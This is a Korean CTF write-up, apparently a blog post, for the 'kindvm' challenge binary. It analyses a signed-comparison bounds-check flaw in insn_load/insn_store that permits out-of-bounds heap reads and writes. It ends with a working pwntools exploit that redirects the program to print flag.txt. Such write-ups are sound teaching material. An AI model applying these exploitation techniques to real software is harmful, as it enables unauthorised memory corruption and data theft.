 ```yaml
---
layout: post
title: "kindvm"
comments : true
category : War Game
---
```


# 문제
***

kindvm 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

```

file 명령어 결과는 다음과 같다.
```
kindvm: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8f9180cac21d47474ed903aea39dd56c7dc9f495, not stripped
```

바이너리 코드

__main()__
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ctf_setup();
  kindvm_setup();
  input_insn();             # read(0, insn, 0x400u);
  (*(void (**)(void))(kc + 16))();    # open_read_write(*(char **)(kc + 12));
  while ( !*(_DWORD *)(kc + 4) )
    exec_insn();
  (*(void (**)(void))(kc + 20))(); open_read_write(*(char **)(kc + 12));
  return 0;
}
```

__kindvm_setup()__

kindvm_setup() 실행 결과는 다음과 같다.

kc
```
| ptr_of_heap_sec1 |
```

heap_sec1 (v0)
```
| 0x00000000 (program counter 역할) | 0x00000000 | ptr_of_heap_sec2 | ptr_of_banner.txt | ptr_of_func_greeting | ptr_of_func_farewell
```

v0[1]에 1이 들어가면 while문이 종료됨.

heap_sec2 (dest)
```
사용자로부터 입력 받은 9바이트 문자열
```

이외에 메모리와 레지스터, 그리고 명령어 저장 역할을 하는 mem, reg, insn이 할당되고 func_table을 구성한다.  

func_table= {insn_nop, insn_load, insn_store, insn_mov, insn_add, insn_sub, insn_halt, insn_in, insn_out, insn_hint}

위 함수 중에서 취약점이 존재하는 함수는 __insn_load()__ 와 __insn_store()__ 이다. (mem에 저장된 값을 reg에 옮기는 함수, reg에 저장된 값을 mem에 쓰는 함수)

__insn_load()__
```
int insn_load()
{
...
  v2 = load_insn_uint8_t();
  v3 = load_insn_uint16_t();
  if ( v2 > 7u )
    kindvm_abort();
  if ( v3 > 0x3FC )
    kindvm_abort();
  v0 = (char *)reg + 4 * v2;
  result = load_mem_uint32_t(v3);
  *v0 = result;
  return result;
}
```

위 코드는 insn에서 각각 1byte와 2byte를 읽어와서 v2, v3에 저장하고 이 값을 각각 0x7, 0x3FC와 비교한다.
비교하는 코드의 어셈블리어는 아래와 같다.

```
   0x08048ca4 <+7>:	call   0x8048a1d <load_insn_uint8_t>
   0x08048ca9 <+12>:	mov    BYTE PTR [ebp-0xb],al
   0x08048cac <+15>:	call   0x8048a3a <load_insn_uint16_t>
   0x08048cb1 <+20>:	mov    WORD PTR [ebp-0xa],ax
   0x08048cb5 <+24>:	cmp    BYTE PTR [ebp-0xb],0x7
   0x08048cb9 <+28>:	jbe    0x8048cc0 <insn_load+35>
   0x08048cbb <+30>:	call   0x80487d0 <kindvm_abort>
   0x08048cc0 <+35>:	cmp    WORD PTR [ebp-0xa],0x3fc
   0x08048cc6 <+41>:	jle    0x8048ccd <insn_load+48>
   0x08048cc8 <+43>:	call   0x80487d0 <kindvm_abort>
```

여기서 ja, jb 계열은 unsigned 값에 대해서 비교하고 jg, jl은 signed 값에 대한 비교를 하는 명령어이다. (ida 디컴파일 결과에서 v3가 int16 자료형이고 v2는 unsigned int8 자료형인 것을 통해서도 알 수 있는듯)
따라서 0x08048cc0에서 [ebp-0xa]에 (즉, v3) 음수값이 (0x8000 ~ 0xffff) 저장돼 있으면 if문을 통과할 수 있다. 이를 통해서 heap에서 메모리 보다 앞에 할당된 영역의 값을 읽어오고 그 영역에 원하는 값을 덮어쓸 수 있다. (load_mem_uint32_t와 store_mem_uint32_t에서 v3 값에 대해서 movsx 명령어를 사용함)


힙 할당 순서는 v0 -> dest -> mem -> reg -> insn

따라서 insn_load(), insn_store()를 통해서 v0, dest에 저장된 값을 읽어오고 덮어쓸 수 있다.


## exploit 방법
1. heap_sec2 (dest)에 "flag.txt"를 넣는다.
2. insn_load()를 이용해서 reg에 dest의 주소 (kc+8에 위치)를 저장한다.
3. reg에 저장된 값을 insn_store()를 통해서 *(kc+0xc)에 넣는다.
4. insn_halt()를 호출해서 while문을 빠져나오면 ```  (*(void (**)(void))(kc + 20))()```를 통해서 func_farewell()이 실행된다. 이를 통해서 flag.txt에 저장된 값을 얻을 수 있다.


got overwrite로 쉘을 따고 싶었는데 mem에서 got 영역까지의 거리가 너무 멀어서 mem+ffffXXXX로 got 영역까지 갈 수가 없었다. 그래서 쉘 따는 것은 포기했다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round2/kindvm/kindvm"

p=process(file_path)

p.recvuntil("name : ")
p.sendline("flag.txt\x00")

p.recvuntil("instruction : ")

pay="\x01"+"\x00"+"\xff\xd8"
pay+="\x02"+"\xff\xdc"+"\x00"
pay+="\x06"

p.send(pay)

p.recvuntil("start!\n"+"\x00")

print p.recv()

```
# 알게 된 것
***
1. (pwntools의 process를 통해서) 파이썬 코드 내에서 새로운 프로세스를 실행하면 해당 프로세스의 기본 디렉토리는 파이썬 코드가 실행되고 있는 디렉토리이다.
   (pwntools의 remote를 통해서) 파이썬 코드를 통해서 다른 서버에서 돌아가고 있는 프로세스와 통신하면 해당 프로세스의 기본 디렉토리는 파이썬 코드가 실행되고 있는 디렉토리가 아니라 서버에서 프로세스가 위치하고 있는 디렉토리이다.
2. kindvm 같은 문제는 아래와 같이 사용되는 함수 (명령어)마다 함수로 선언 해놓고 사용하는 것이 좋다.
```
def op_load(reg_dst, mem_src):
    res = ''
    res += chr(1)
    res += chr(reg_dst)
    res += p16(mem_src & 0xffff)
    return res
```

3. gdb에 프로세스를 attach하거나 gdb에서 프로세스를 실행하면 signal 함수를 무시할 수 있는듯(?) 

(ex) ```signal(14,signal_handler_timeout); return alarm(5u)```를 통해 프로세스를 종료하려는 것을 무시할 수 있다.)
